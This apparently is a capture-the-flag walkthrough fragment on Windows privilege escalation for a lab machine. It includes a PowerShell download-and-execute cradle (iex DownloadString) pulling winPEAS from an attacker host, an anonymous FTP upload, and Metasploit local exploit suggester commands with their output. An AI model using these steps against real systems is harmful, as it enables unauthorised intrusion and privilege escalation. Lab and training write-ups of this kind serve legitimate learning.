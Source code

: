 # Privilege Escalation

## 1. Privesc by winPEAS.bat (normal shell)

```bash
# download winPEASx86.exe from kali, but only winPEAS.bat could run
python3 -m http.server 80
# Load winPEAS
powershell.exe "iex ((New-Object Net.WebClient).DownloadString('http://10.10.14.12/winPEAS.bat'))"
# download winPEAS
powershell.exe "iwr -uri http://10.10.14.12/winPEASx86.exe -Outfile .\winPEAS.bat"
# or use ftp to upload
ftp 10.10.10.5
anonymous
binary
put winPEAS.bat
```

```bash
cd c:\inetpub\wwwroot
winPEAS.bat
```

## 2. Privesc by metasploit (meterpreter)
```bash
shell
systeminfo
exit
background
use post/multi/recon/local_exploit_suggester
set session 1
run
```

![[Devel-10.png]]

![[Devel-11.png]]
![[Devel-13.png]]

```txt
*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 40 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```